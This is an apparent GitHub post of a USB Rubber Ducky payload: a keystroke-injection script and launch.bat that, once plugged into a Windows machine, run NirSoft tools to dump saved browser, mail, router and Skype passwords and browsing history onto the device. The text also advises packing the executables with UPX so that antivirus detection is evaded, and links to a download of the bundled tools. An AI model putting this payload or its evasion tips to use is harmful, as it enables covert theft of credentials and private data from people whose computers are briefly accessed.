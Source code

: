 The following is a modified version of Mr Gray's password recovery script for the USB rubber ducky. Modifications include googleKnowsBest's ducky drive detection if the drive is labeled "DUCKY", which has been coded to work on all current windows OS's, and a modification to run from a folder on the ducky labeled "MrGraysRubberHacks". This payload has also been tweaked to be a little more forgiving to errors, and as such has some more delays. Forgiving as this script is, it may need customized delays depending on the users requirements. The payload is designed for c_duck_v2_S001.hex, and c_duck_v2_S002.hex firmware types. Wait for the ducky's drive to mount, and then press the button to launch this payload. This payload may also be launched using a binary duck attack in which you use stock duck firmware, linked to a mass storage device via a 2 port USB cable splitter. This method would mount the mass storage almost instantaneously which would negate the need to wait for the ducky's mass storage to mount. 
The forum page is located here: 

http://forums.hak5.org/index.php?/topic/29067-payload-mr-grays-password-history-recovery-tool-for-rubber-ducky/

The executables are accessible at: 

http://www.mediafire.com/?nm1c62qt9w9z3wg

The executables are also individually downloadable from their original location at nirsoft. The executables become resistant to most antivirus detection using the packer UPX. Other such products would further obfuscate the signatures. 

```
ENCODE: 

DEFAULT_DELAY 25
REM File: MrGraysRubberHacks.txt
REM Target: WINDOWS VISTA/7
DELAY 1000
ESCAPE
CONTROL ESCAPE
DELAY 100
STRING cmd
DELAY 100
ENTER
DELAY 150
STRING for /f "tokens=3 delims= " %A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%A:)
ENTER
STRING set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks
ENTER
STRING %DUCKYdrive%\launch.bat
ENTER

LAUNCH.BAT file: 

for /f "tokens=3 delims= " %%A in ('echo list volume ^| diskpart ^| findstr "DUCKY"') do (set DUCKYdrive=%%A:)

REM Output everything to this folder so I dont have everything on the duck's root. 
set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks

start %DUCKYdrive%\WebBrowserPassView.exe /stext %DUCKYdrive%\WebBrowserPassView.txt
start %DUCKYdrive%\SkypeLogView.exe /stext %DUCKYdrive%\SkypeLogView.txt
start %DUCKYdrive%\RouterPassView.exe /stext %DUCKYdrive%\RouterPassView.txt
start %DUCKYdrive%\pspv.exe /stext %DUCKYdrive%\pspv.txt
start %DUCKYdrive%\PasswordFox.exe /stext %DUCKYdrive%\PasswordFox.txt
start %DUCKYdrive%\OperaPassView.exe /stext %DUCKYdrive%\OperaPassView.txt
start %DUCKYdrive%\mspass.exe /stext %DUCKYdrive%\mspass.txt
start %DUCKYdrive%\mailpv.exe /stext %DUCKYdrive%\mailpv.txt
start %DUCKYdrive%\iepv.exe /stext %DUCKYdrive%\iepv.txt
start %DUCKYdrive%\ChromePass.exe /stext %DUCKYdrive%\ChromePass.txt
start %DUCKYdrive%\ChromeHistoryView.exe /stext %DUCKYdrive%\ChromeHistoryView.txt
start %DUCKYdrive%\BulletsPassView.exe /stext %DUCKYdrive%\BulletsPassView.txt
start %DUCKYdrive%\BrowsingHistoryView.exe /stext %DUCKYdrive%\BrowsingHistoryView.txt
```

If you wish to remove the part of the script that contains the code to the folder MrGraysRubberHacks, and instead have all output go to the root of the drive delete the following items:

```
ENCODE: 

...
STRING set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks
ENTER
...
```

```
LAUNCH.BAT file: 

...
REM Output everything to this folder so I dont have everything on the duck's root. 
set DUCKYdrive=%DUCKYdrive%\MrGraysRubberHacks
...
```